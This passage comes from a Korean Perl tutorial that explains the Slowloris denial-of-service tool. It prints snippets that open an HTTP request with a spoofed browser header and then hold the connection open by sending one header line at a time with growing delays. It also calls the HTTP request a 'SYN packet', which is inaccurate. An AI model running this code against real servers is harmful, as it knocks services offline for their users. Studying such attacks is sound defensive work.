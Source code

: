 이번에는 세션수를 정의하고 브라우저의 정보를 GET 합니다.
정상적인 SYN 패킷을 보내기 위한 부분입니다.

    #!perl
    # if ($working) {
        # 위에서 계속..
        
        my $primarypayload =
            "GET /$rand HTTP/1.1\r\n"
          . "Host: $sendhost\r\n"
          . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; "
          . "Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR "
          . "3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"
          . "Content-Length: 42\r\n";
    
        if (print $sock $primarypayload) {
            print "Connection successful, now comes the waiting game...\n";
        }
        else {
            print "That's odd - ";
            print "I connected but couldn't send the data to $host:$port.\n";
            print "Is something wrong?\nDying.\n";
            exit;
        }
    }
    else {
        print "Uhm... I can't connect to $host:$port.\n";
        print "Is something wrong?\nDying.\n";
        exit;
    }

Wireshark로 보면 아래와 같습니다.

![정상적인 SYN 패킷][img-resize-4]
*그림 4.* 정상적인 SYN 패킷 ([원본][img-4])

소켓을 생성한 후 그 소켓은 SLEEP 상태에 빠지며 서버측의 응답을 기다리게 됩니다.
클라이언트는 마지막 `0d0a`를 보내지 않습니다.

    #!perl
    for ( my $i = 0 ; $i <= $#times ; $i++ ) {
        print "Trying a $times[$i] second delay: \n";
        sleep( $times[$i] );
        if ( print $sock "X-a: b\r\n" ) { # 0d0a를 한번만 보냅니다.
            print "\tWorked.\n";
            $delay = $times[$i];
        }
        else {
            if ( $SIG{__WARN__} ) {
                $delay = $times[ $i - 1 ];
                last;
            }
            print "\tFailed after $times[$i] seconds.\n";
        }
    }
    

[author]: https://twitter.com/newbcode
[module-inet]: https://www.metacpan.org/module/IO::Socket::INET
[module-ssl]: https://www.metacpan.org/module/IO::Socket::SSL
[module-trace]: https://www.metacpan.org/module/Devel::Trace::More
[slowloris]: http://ha.ckers.org/slowloris/
[img-1]: 2012-12-17-1.jpg
[img-2]: 2012-12-17-2.jpg
[img-3]: 2012-12-17-3.jpg
[img-4]: 2012-12-17-4.jpg
[img-5]: 2012-12-17-5.jpg
[img-resize-1]: 2012-12-17-1_r.jpg
[img-resize-2]: 2012-12-17-2_r.jpg
[img-resize-3]: 2012-12-17-3_r.jpg
[img-resize-4]: 2012-12-17-4_r.jpg
[img-resize-5]: 2012-12-17-5_r.jpg